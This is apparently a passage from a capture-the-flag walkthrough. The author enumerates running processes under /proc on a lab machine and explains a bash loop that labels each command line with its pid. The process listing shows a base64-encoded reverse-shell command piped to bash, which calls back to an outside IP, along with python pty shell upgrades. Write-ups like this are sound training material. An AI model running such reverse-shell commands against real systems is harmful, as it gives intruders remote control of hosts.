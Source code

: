 
Each numbered directory represents a process and will have a `cmdline` file
with the command line called to start the process. These are missing newlines
at the end, so it’s a bit messy, but a quick way to take a look is just to
`cat` them all together (I’ll make this more readable in a minute):

    
    
    atlas@sandworm:/proc$ cat */cmdline
    /usr/local/bin/firejail--profile=webappflaskrungpg-agent--homedir/home/atlas/.gnupg--use-standard-socket--daemonscdaemon--multi-server/usr/bin/python3/usr/local/sbin/flaskrun/bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bashbashbash-ipython3-cimport pty; pty.spawn("/bin/bash")/bin/bashpython3/bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bashbashbash-ipython3-cimport pty;pty.spawn("/bin/bash")/bin/bashcat1/cmdline20089/cmdline20091/cmdline20/cmdline52380/cmdline52383/cmdline52384/cmdline52405/cmdline52406/cmdline52412/cmdline52429/cmdline52432/cmdline52433/cmdline52439/cmdline52440/cmdlineself/cmdlinethread-self/cmdlinecat1/cmdline20089/cmdline20091/cmdline20/cmdline52380/cmdline52383/cmdline52384/cmdline52405/cmdline52406/cmdline52412/cmdline52429/cmdline52432/cmdline52433/cmdline52439/cmdline52440/cmdlineself/cmdlinethread-self/cmdline
    

At least for the ones I can read, `firejail` jumps out.

For a better look at the processes, I’ll write a quick `bash` oneliner loop,
which I’ll show here with added whitespace:

    
    
    ls | while read d; do 
      cat "$d/cmdline" 2>/dev/null 
      && echo " [$d]"; 
    done
    

It’s going to read all the items in the current directory (`/proc`), and then
for each try to `cat` a `cmdline` file from that directory (`cat
"$d/cmdline"`). If that fails, the output / error messages go to `/dev/null`
(`2>/dev/null`). `&&` means keep going only if the previous command succeeded,
and in that case, it will print the pid of the file at the end. The result
looks like:

    
    
    atlas@sandworm:/proc$ ls | while read d; do cat "$d/cmdline" 2>/dev/null && echo " [$d]"; done
    /usr/local/bin/firejail--profile=webappflaskrun [1]
    /usr/bin/python3/usr/local/sbin/flaskrun [20]
    gpg-agent--homedir/home/atlas/.gnupg--use-standard-socket--daemon [20089]
    scdaemon--multi-server [20091]
    /bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash [52380]
    bash [52383]
    bash-i [52384]
    python3-cimport pty; pty.spawn("/bin/bash") [52405]
    /bin/bash [52406]
    python3 [52412]
    /bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash [52429]
    bash [52432]
    bash-i [52433]
    python3-cimport pty;pty.spawn("/bin/bash") [52439]
    /bin/bash [52440]
    /bin/bash [53338]
    catself/cmdline [self]
    catthread-self/cmdline [thread-self]
    